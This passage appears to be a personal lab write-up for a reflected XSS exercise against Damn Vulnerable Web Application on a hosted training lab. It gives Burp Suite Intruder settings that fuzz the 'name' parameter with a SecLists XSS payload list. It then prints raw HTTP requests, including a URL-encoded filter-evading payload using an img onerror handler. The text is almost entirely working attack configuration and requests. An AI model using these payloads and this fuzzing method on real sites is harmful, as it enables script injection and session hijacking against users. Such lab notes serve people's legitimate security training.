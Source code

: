 ![Lab - Damn Vulnerable Web Application 3](./assets/encoding_filtering_and_evasion_basics_lab_damn_vulnerable_web_application_3.png)

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /home/kali/tools/SecLists/Fuzzing/XSS/human-friendly/XSS-BruteLogic.txt/XSS-BruteLogic.txt` = `Payload encoding: URL-encode: enabled` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
GET /vulnerabilities/xss_r/?name=§TESTING§ HTTP/2 📌
Host: 40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=c95thukdhdn9g15j21oho4jdj4; security=medium
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com/vulnerabilities/xss_r/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
`HTTP Request`:
```http
GET /vulnerabilities/xss_r/?name=%3cImg%20Src%3djavascript%3aalert(1)%20OnError%3dlocation%3dsrc%3e HTTP/2 📌
Host: 40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com
Cookie: PHPSESSID=c95thukdhdn9g15j21oho4jdj4; security=medium
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://40gn7w9m9kaqb4y1xxnjkfpi2.eu-central-6.attackdefensecloudlabs.com/vulnerabilities/xss_r/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```
